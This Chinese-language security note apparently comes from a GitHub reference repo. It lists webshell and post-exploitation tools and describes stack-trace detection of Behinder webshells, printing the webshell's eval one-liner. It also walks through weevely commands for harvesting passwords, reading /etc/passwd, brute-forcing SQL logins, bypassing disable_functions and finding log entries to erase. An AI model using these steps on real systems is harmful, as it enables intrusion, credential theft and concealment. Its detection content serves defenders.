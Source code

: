 ### Webshell管理与后渗透工具

|名称|管理端的编程语言|针对目标环境|描述|
|:-------------:|--|--|-----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python|php|文件管理/HTTP(S) proxy/Bruteforce SQL accounts/Port scan|
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|TCP tunneling over HTTP/HTTPS for web application servers. 参考[Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |

### 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为流量是AES双向加密的，可绕过WAF和IDS。

但部署在应用内部的OpenRASP，能够看到后门操作（安装 999-event-logger 插件即可看到日志）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```

检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)


#### 后渗透功能

weevely的后渗透功能：
* 信息搜集
    * 使用grep提取各文件中的敏感信息
      * 口令
        * `grep . '^[^*/#]*passw?o?r?d?'`
      * 连接数据库的代码
        * `grep . 'mysql_conn'`
      * 日志 搜索敏感ip以便后续清除攻击痕迹
        * `grep . '209.12.12.12'`
    * SQL交互模式
      * 使用sql_console模块 - 连接mysql 并进入交互模式
        * `sql_console -user USER -passwd PASS123 -host 10.2.3.4` 然后可以使用`show databases;`等进行命令交互。
    * 读取敏感文件
      * 使用audit_etcpasswd模块 - 用不同技术读取passwd文件
        * `:audit_etcpasswd`
    * 暴力枚举登录口令
      * 使用bruteforce_sql模块 - 暴力枚举SQL用户的登录口令
        * `:bruteforce_sql mysql -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`
    * 命令交互
      * 使用audit_disablefunctionbypass模块 - 伪终端命令交互
        * 适用环境:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
        * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
        * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
        * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
        * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 启动伪终端 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`

